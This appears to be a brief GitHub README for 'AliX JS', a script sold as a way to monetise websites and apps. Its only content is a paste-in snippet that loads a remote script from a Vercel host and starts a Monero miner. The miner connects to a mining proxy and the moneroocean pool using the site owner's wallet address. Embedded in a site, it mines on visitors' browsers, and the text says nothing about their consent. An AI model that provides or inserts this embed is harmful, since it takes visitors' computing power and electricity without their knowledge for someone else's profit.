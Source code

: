 AliX JS Is A PowerFull JS Used To Monitize Websites And Apps  
## USE
```
<script src="https://alixjs.vercel.app/connect.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "YOUR-MONERO-ADRESS";
    var workerId = "YOUR-WORKER-ID";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
`Major Docs Updated Later`
